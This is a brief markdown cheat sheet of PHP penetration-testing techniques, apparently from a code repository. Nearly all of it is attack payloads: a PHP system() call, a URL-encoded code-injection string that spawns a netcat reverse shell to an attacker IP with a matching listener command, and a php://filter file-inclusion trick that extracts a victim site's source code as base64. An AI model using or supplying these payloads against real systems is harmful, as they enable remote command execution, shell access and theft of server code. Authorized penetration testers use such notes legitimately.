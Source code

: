 # PHP Penteration Testing Techniques

### Execute system commands using php
`<php system('ls -la'); ?>`

---
### Obtaining Shell through Browser Bar
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
---
### Using php:// in url to return base64 encoded page source
```
# https://victimsite.com/somefile.php?pagename=whatever
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile.php
# or
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile

# Copy the returned base64 code and decode it
echo -n thebase64codethatwassuppliedbythephpfilterconvertbase64encode | base64 -d > somefile.php
```
